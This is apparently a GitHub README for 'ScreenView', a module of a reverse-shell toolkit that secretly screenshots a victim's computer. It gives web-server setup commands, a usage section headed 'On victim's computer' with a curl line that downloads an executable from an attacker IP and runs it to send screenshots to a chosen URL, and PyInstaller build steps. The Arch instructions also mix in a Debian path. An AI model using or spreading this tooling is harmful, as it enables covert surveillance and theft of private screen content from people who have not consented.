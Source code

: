 # ScreenView
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> ScreenView module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
```

